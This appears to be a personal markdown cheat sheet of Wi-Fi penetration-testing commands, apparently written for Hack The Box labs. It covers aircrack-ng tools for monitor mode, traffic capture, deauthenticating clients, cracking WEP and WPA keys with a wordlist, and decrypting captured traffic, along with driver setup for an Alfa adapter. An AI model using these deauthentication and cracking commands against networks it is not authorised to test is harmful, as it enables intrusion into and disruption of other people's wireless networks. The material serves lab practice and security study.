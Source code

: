 # WI-FI CODE SNIPPETS
```
iwconfig
```
Grab all networks nearby:
```
sudo iwlist wlan1 s | grep 'Cell\|Quality\|ESSID\|IEEE\|Mode\|Frequency\|Channel\|Quality\|Signal Level' | tee wifi_scan.txt
```
If things are weird:
```
sudo airmon-ng check kill
```
&
```
sudo systemctl restart NetworkManager
```

---

## Airmon-ng
### Start monitor mode:
```
 sudo airmon-ng start wlan1
```
### Stop monitor mode:
```
sudo airmon-ng stop wlan0mon
```

---

## Airodump-ng
### Dump network traffic to file:
airodump-ng is configured to scan exclusively for networks operating on the 2.4 GHz band so use `--band abg` if necessary
```
sudo airodump-ng wlan1mon --band a -w dump
```

---

## Airgraph-ng
### Visualize APs and Clients with:
Use airodump-ng `.csv`s
```
sudo airgraph-ng -i dump-01.csv -g CAPR -o dumpCAPR.png
```
OR for CPG:
```
sudo airgraph-ng -i HTB-01.csv -g CPG -o dumpCPG.png
```
Test with: (Injection Working!)
```
sudo aireplay-ng --test wlan0mon
```

---

## Aireplay-ng
```
aireplay-ng
```
```
sudo aireplay-ng -0 5 -a ACCESSPOINTBSSID -c CLIENTBSSID wlan1mon
```

---

## Aircrack-ng
Benchmark with this command, it will tell you how many passphrases you can crack a second, it's dependent on what else is using the CPU:
```
aircrack-ng -S
```
Crack WEP Key, use `--ivs` in aurodump-ng command to only capture the IVs (Initialization Vectors). Once enough are captured:
```
aircrack-ng -K HTB.ivs
```
Crack WPA, make sure the "four-way handshake" is in the `.pcap` by deauthing client from AP.
```
aircrack-ng HTB.pcap -w /opt/wordlist.txt
```

---

## Airdecap-ng
Need network passphrase / WEP Key and the `.pcap` file of captured traffic
```
airdecap-ng
```
Decrypt WEP
```
airdecap-ng -w <WEP-key> <capture-file>
```
Decrypt WPA:
```
airdecap-ng -p <passphrase> <capture-file> -e <essid>
```

---






# EXTRAS
Note that it is possible to connect to APs via CLI
## Rasberry Pi MAC address ranges:
```
28:CD:C1:xx:xx:xx
B8:27:EB:xx:xx:xx
D8:3A:DD:xx:xx:xx
DC:A6:32:xx:xx:xx
E4:5F:01:xx:xx:xx
```

---

## Install Alpha Adapter
Configuring the Alpha AWUS036ACH Wi-Fi Adapter - [Link](https://medium.com/@wicked_picker/configuring-the-alpha-awus036ach-wi-fi-adapter-on-kali-linux-eb5ec2826713)
See available USBs:
```
lsusb
```
Then see it NOT here:
```
iwconfig
```
Install the Realtek drivers:
```
sudo apt-get install realtek-rtl88xxau-dkms
```
Install dkms:
```
sudo apt-get install dkms
```
Download the rtl8812au drivers from GitHub
```
git clone https://github.com/aircrack-ng/rtl8812au
```
```
cd rtl8812au
```
Preemptively fix the error:
```
sudo apt-get install linux-headers-$(uname -r)
```
```
make
```
```
sudo make install
```
```
reboot
```
```
iwconfig
```

---


